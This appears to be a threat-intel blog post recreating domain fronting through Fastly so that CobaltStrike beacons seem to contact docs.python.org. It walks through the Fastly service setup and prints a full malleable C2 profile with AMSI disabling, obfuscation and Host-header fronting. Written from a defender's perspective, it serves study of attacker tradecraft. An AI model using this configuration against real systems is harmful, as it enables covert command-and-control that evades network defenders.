 ```yaml
---
title: "Threat Spotlight - Domain Fronting"
excerpt: Fast(ly) but deadly.
category: threat-spotlight
tags: [en-us, guide]
header:
  overlay_color: '#000'
  overlay_filter: '0.75'
  overlay_image: /assets/images/posts/domain-fronting/2021-11-13_19-28-47.png
---
```



Domain fronting is a common technique that is sometimes used by threat actors to disguise their traffic as the real deal. Essentially, what it is is communicate with legitimate-looking domains when reality, the traffic is being pointed to threat actor's C2 stations. A common example would be using legitimate or reputable domains with a custom `Host` header to redirect the traffic to threat actor's stations. There are many examples out there that abuse services like [Cloudflare](https://digi.ninja/blog/cloudflare_example.php), [CloudFront](https://digi.ninja/blog/cloudfront_example.php), and such.

In today's example, we'll be using Fastly as an example. Fastly provides a service that's more or less intended to act as a CDN, where you can create a service and tie it to your backend. As you can imagine, a company as large as Fastly ([that was able to bring half the Internet with it when it went down](https://www.bloomberg.com/news/articles/2021-06-08/explaining-cdns-and-why-big-websites-crash-together-quicktake)), there are probably more than thousands of people using their services - and indeed there are.

You can do a quick search using services like RiskIQ to look through all of the subdomains associated with `*.fastly.net`. While [it appears we're not the first to discover this](https://fortynorthsecurity.com/blog/fastly-and-fronting/), there aren't a whole lot of other resources out there talking about abusing Fastly as a service.

{% picture figure "/assets/images/posts/domain-fronting/2021-11-14_20-34-02.png" %}

And Python Software Foundation just so happens to use it too!

{% picture figure "/assets/images/posts/domain-fronting/2021-11-14_20-40-10.png" %}

What actually happens is when you contact `python.org`, it actually gets interpreted as `python.org.prod.global.fastly.net` internally based on the `Host` header. This was actually brought to our attention a while back when my colleagues discovered there were CobaltStrike beacons in the wild that appear to connect to Python-related domains at execution, and upon further investigation, we realized they were abusing the nature of Fastly services to disguise their traffic. So I decided to do a little experiment this weekend to see if I can recreate that myself.

To get started, I created a new service on Fastly called `dl-python.org`, a service name (and in turn, a domain name) that appears to be similar enough to the real deal, but doesn't actually exist (and it doesn't need to be!).

<figure>
  {% picture nomarkdown "/assets/images/posts/domain-fronting/2021-11-13_19-29-20.png" %}
  {% picture nomarkdown "/assets/images/posts/domain-fronting/2021-11-14_20-47-44.png" %}
  <figcaption>
    Create a new service that appears to be genuine enough to the target domain name. In this case, <code>dl-python.org</code>.
    Note that while <code>dl-python.org</code> appears to be actually owned by someone else, I don't actually have access to it, nor will it actually make contact with the domain (we'll get to that part later). You can name it whatever you want.
  </figcaption>
</figure>

Next, in the Host settings section, enter your actual C2's domain name, something you have actual control over. In this case, `my-c2domain.com`. I have the port set to `55137`, but it should be 443 ideally for HTTPS beacons. My 80/443 port was occupied by something else when I was experimenting with it.

{% picture figure "/assets/images/posts/domain-fronting/2021-11-13_19-29-57.png" %}

Next, we're going to craft a new CobaltStrike Stager. Create a new Listener on your team server with the vulnerable domain name as the C2, and enter your service name in the `Host` field. To make the traffic look a little bit more genuine, you can also craft your own malleable C2 profile that has contents of Python docs inside.

{% picture figure "/assets/images/posts/domain-fronting/2021-11-13_19-28-47.png" %}

```text
set sleeptime "5000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (Windows NT 6.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0";

# set host_stage "false";
post-ex {
	# control the temporary process we spawn to
	set spawnto_x86 "%ProgramFiles(x86)%\\Everything\\Everything.exe";
	set spawnto_x64 "%ProgramFiles%\\Mozilla Firefox\\firefox.exe";

	# change the permissions and content of our post-ex DLLs
	set obfuscate "true";

	# pass key function pointers from Beacon to its child jobs
	set smartinject "true";

	# disable AMSI in powerpick, execute-assembly, and psinject
	set amsi_disable "true";
}

http-config {
	set headers "Date, Server, Content-Length, Keep-Alive, Connection, Content-Type";
	set trust_x_forwarded_for "false";
	header "Server" "nginx";
	header "Keep-Alive" "timeout=5, max=100";
	header "Connection" "Keep-Alive";
}

http-get {
    set uri "/3/library/stdtypes.html";
    client {
        header "Accept" "*/*";
        header "Host" "dl-python.org";
        metadata {
            base64;
            prepend "session=";
            header "Cookie";
        }
    }

    server {
        header "Server" "nginx";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";

        output {
            base64url;
            # the content was so long for my IDE that it actually hung when trying to parse it
            # so I'm gonna leave this section to you
            append "...html_head...";
            prepend "...html_body...";
            print;
        }
    }
}

http-post {
    set uri "/3/library/struct.html";
    client {
        header "Accept" "*/*";
        header "Host" "cobaltstrike.stillu.cc";
        id {
            mask;
            base64url;
            parameter "x-timer";
        }
        output {
            mask;
            base64url;
            parameter "etag";
        }
    }

    server {
        header "Server" "nginx";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";

        output {
            base64url;
            append "...html_head...";
            prepend "...html_body...";
            print;
        }
    }
}
```

And that's it! Let's try to run the stager on our victim machine.

{% picture figure "/assets/images/posts/domain-fronting/2021-11-13_19-31-10.png" %}

As you can see, it worked! It looks like it's contacting `docs.python.org` (and it is), yet the server returned beacon information for the stager. Just not in plaintext because I had the `mask` option enabled, otherwise the content should look almost like standard HTML content with random bits of information thrown in there because of the malleable C2 config above - and this is with unencrypted traffic.

This trick is perfect for threat actors that want to evade IT admins' attention as
- it appears to contact a real domain with benign URL (`http://docs.python.org/3/library/stdtypes.html`)
- it can be made to communicate in HTTPS, so the `Host` header wouldn't even show up
- if the IT admin does manage to figure out it goes to `dl-python.org.prod.global.fastly.net`, it doesn't reveal the actual C2 address still, as the resolved IP would just be Fastly's own CDN IP.

This entire thing was really fun to recreate and helped me understand CobaltStrike a little bit more from attacker's perspective, as I've always tackled CobaltStrike payloads from a Blue Team's perspective as a threat intel researcher. If you are in the same position as me, I also encourage you to give CobaltStrike a try and try to attack your own machines to see what tricks you can pull off (if your organization has access to such tool).
